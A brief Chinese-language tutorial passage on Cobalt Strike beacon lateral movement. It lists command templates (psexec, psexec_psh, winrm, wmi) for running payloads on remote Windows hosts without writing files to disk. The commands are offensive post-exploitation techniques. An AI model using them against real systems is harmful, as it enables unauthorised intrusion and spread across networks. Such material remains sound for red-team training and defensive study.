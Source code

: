 前面说的两种执行文件的方法都需要往磁盘里上传文件，如果不想往磁盘中上传文件，也可以使用 beacon 的自动操作。

使用一个服务运行可执行文件
psexec [target] [share] [listener]
使用一个服务运行 Powershell 单行程序
psexec_psh [target] [listener]
通过 WinRM 运行 Powershell 单行程序
winrm [target] [listener]
通过 WMI 运行 Powershell 单行程序
wmi [target] [listener]
